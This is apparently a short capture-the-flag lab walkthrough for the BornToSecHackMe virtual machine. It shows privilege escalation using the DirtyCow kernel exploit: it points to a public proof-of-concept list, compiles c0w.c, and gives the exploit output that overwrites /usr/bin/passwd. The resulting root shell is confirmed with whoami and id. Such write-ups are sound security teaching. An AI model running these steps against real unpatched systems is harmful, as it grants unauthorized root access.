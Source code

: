 [See detailed writeup here 1](../writeup1.md)

[See detailed writeup here 13](writeup13.md)

Log in as any user account.
```
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
```

Here you can see other different DirtyCow exploits that you can use.

Unlike the previous one, we will use c0w.c this time.


```
gcc -pthread c0w.c  -o c0w
```

Now we will run it...

```
zaz@BornToSecHackMe:~$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap b7e04000

madvise 0

```

All we need to do is;

```
zaz@BornToSecHackMe:~$ /usr/bin/passwd

root@BornToSecHackMe:/home/zaz# whoami
root

root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```

FINALLY WE ARE ROOT #15 ;D